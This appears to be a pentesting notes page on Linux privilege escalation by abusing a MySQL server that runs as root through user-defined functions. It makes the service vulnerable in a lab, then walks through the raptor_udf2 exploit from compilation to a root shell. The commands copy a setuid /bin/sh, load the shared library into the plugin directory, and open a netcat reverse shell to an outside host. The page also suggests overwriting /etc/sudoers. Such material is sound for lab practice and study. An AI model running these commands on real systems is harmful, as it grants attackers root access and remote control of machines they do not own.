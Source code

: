 # MySQL UDF

## <mark style="color:red;">Simulation</mark>

for testing purposes you can make your mysql service vulnerable manually

To configure this vulnerability on Kali to test run the following commands.

#### `chown -R root:root /var/lib/mysql` `nano /etc/mysql/mariadb.conf.d/50-server.cnf` `Change user=mysql to user=root and save the file` `service mysql restart`

## <mark style="color:red;">Find mysql service user</mark>

in some situations we have a mysql running as root which we can use for privs. first we have to determin the commands that we can use in mysql.mysql has a module called UDF(User-Defined Function) which lets us run commands as the current user which myssql is runnung as. so whit this in mind we might be able to run root commands from mysql.

first we have to see if mysql is running as root:

\
`ps aux | grep mysql`

![](../../../.gitbook/assets/udf1.png)

its running as root.login:

`mysql -u root`\
`use mysql; >>> mysql is the database`\
`select * from mysql.func; >>> search for udf`

![](../../../.gitbook/assets/udf2.png)

## <mark style="color:red;">Exploitation</mark>

#### <mark style="color:green;">if the mysql service already has the function we can skip exploit part:</mark>

now we use udf to copy /bin/sh to /tmp and make it executable for john to get a root prompt:

`select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh');`\
`OR`\
`select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');`

![](../../../.gitbook/assets/udf3.png)

exit and go to /tmp

run sh file:

![](../../../.gitbook/assets/udf4.png)

## <mark style="color:red;">Adding the UDF function</mark>

#### <mark style="color:green;">if mysql doesn't have the function already we add it using the exploit:</mark>

{% embed url="https://www.exploit-db.com/download/1518.c" %}

{% file src="../../../.gitbook/assets/1518.c" %}

the instructions are in exploit itslef

compile on target machine

`gcc -g -c raptor_udf2.c >>> for 32 bit systems`\
`gcc -g -c raptor_udf2.c -fPIC >>> for 64 bit`\
`gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc`

This will prompt for the password.

mysql -u root -p >>> press enter without any password

`use mysql;`

now we will need to create a temporary table for us to work with. We need a place to load in the Shared Binary into MySQL.

`create table foo(line blob);`

Now that we have the table setup we will need to insert the contents into the table. We do this because the next step is to export it to a root only directory. Since it was moved over or compiled on the victims machine as a non root user this is the only way to do it.

change the file path

`insert into foo values(load_file('/path/to/the/file/raptor_udf2.so'));`

With the raw binary inside of the table we can select it and dump the contents onto the disk anywhere we like! Note that you can even push the contents of a new /etc/sudoers file and overwrite it!

For a UDF to work we need to find the location of the plugins directory. This is where we need the file to be stored. otherwise you will get an error refering to ‘raptor\_udf2.so’ cannot be found.

Look for the value of plugin\_dir:

`show variables like '%plugin%';`

Use the plugin\_dir as the dump file location:

`select * from foo into dumpfile "/usr/lib/mysql/plugin/raptor_udf2.so";`

If there are no errors you were able to sucessfully push the raw binary of raptor\_udf2.so into the plugins directory owned by root! Now we need to create the function to complete the privelege escalation.

`create function do_system returns integer soname 'raptor_udf2.so';`

Now that this is done we can confirm the functions is present in mysql.

`select * from mysql.func;`

If we see the name do\_system with the type function we are good to go. The only thing left is to actually run the code we want.

`select do_system('nc 192.168.1.24 4444 -e /bin/bash &');`

We now setup our listener and we have a root shell!
